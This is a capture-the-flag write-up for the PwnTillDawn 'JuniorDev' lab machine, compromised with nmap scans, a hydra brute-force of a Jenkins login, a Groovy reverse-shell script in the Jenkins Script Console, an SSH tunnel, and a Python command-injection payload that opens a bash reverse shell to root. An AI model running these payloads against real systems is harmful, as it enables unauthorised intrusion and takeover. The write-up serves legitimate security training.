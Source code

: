 ```yaml
---
title: "PwnTillDawn - JuniorDev"
author: Nasrallah
description: ""
date: 2022-09-21 00:00:00 +0000
categories : [PwnTillDawn]
tags: [pwntilldawn, linux, jenkins, hydra, bruteforce, commandinjection, python, tunneling]
img_path: /assets/img/pwntilldawn/juniordev
---
```


---


## **Description**

Hello hackers, I hope you are doing well. We are doing [JuniorDev](https://online.pwntilldawn.com/Target/Show/63) from [PwnTillDawn](https://online.pwntilldawn.com/). The target is running a web server on a non standard port. We found a login page that we brute force to get in and then run a command for a reverse shell. Then we find another web server running internally so we use an ssh tunnel to access it. We exploit a command injection vulnerability to get root. 

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.098s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 64:63:02:cb:00:44:4a:0f:95:1a:34:8d:4e:60:38:1c (RSA)
|   256 0a:6e:10:95:de:3d:6d:4b:98:5f:f0:cf:cb:f5:79:9e (ECDSA)
|_  256 08:04:04:08:51:d2:b4:a4:03:bb:02:71:2f:66:09:69 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found port 22 open running openssh.

We don't have any credentials and the version of ssh doesn't have any vulnerabilities.

Let's scan all ports this time with `sudo nmap --min-rate 5000 -p- 10.150.150.38`

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.094s latency).
Not shown: 64506 closed tcp ports (reset), 1027 filtered tcp ports (no-response)
PORT      STATE SERVICE
22/tcp    open  ssh
30609/tcp open  unknown
```

We found another service on a high port, let's run a service scan on that port.

```terminal
Nmap scan report for 10.150.150.38
Host is up (0.22s latency).

PORT      STATE SERVICE VERSION
30609/tcp open  http    Jetty 9.4.27.v20200227
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.27.v20200227)
```

The port is running a jetty web server.

### Web

Let's navigate to the web page on `http://10.150.150.38:30609/`

![](1.png)

We found a login page for Jenkins.

I tried some default credentials but no luck with that. Let's brute force the login with hydra, but first we need to intercept a login request to see what parameters we need to set.

![](2.png)

Now let's craft our command.

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:F=loginError"
```

Let's run the command.

![](3.png)

Got the password.

## **Foothold**

Let's login to Jenkins.

![](4.png)

Great! Now we need to get a shell. We can do that by going to `Manage Jenkins` -> `Script Console` and enter the following command.

```groovy
String host="10.10.10.10";
int port=9001;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](5.png)

Now setup a listener with `nc -lvnp 9001` and run the command.

![](6.png)

We got the shell.

## **Privilege Escalation**

Let's do some basic enumeration.

![](7.png)

We found a ssh key. Let's connect with it.

![](8.png)

I uploaded a copy of linpeas and after running it i got this.

![](9.png)

We found a service listening on port 8080 and we can't access it.

We are gonna use ssh tunneling in order to access it.

Run the following command from the attacker machine.

```bash
ssh -L 8000:127.0.0.1:8080 juniordev@10.150.150.38 -i id_rsa -fN
```

Now navigate to `127.0.0.1:8000`.

![](10.png)

We find an application that takes two numbers from us and adds them together.

We see in the title of the page `Jr.dev py example`. Which means this is a python application hens the `py` in the title.

Searching for python command injection, i found this [article](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1) which had the following command that would give us a reverse shell.

```python
__import__('os').system('bash -c "bash -i >& /dev/tcp/10.66.66.10/9999 0>&1"')#

```

Now setup a listener and put the payload above in one of the input fields and click calculate.

![](11.png)

Great! We got a shell as root.

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
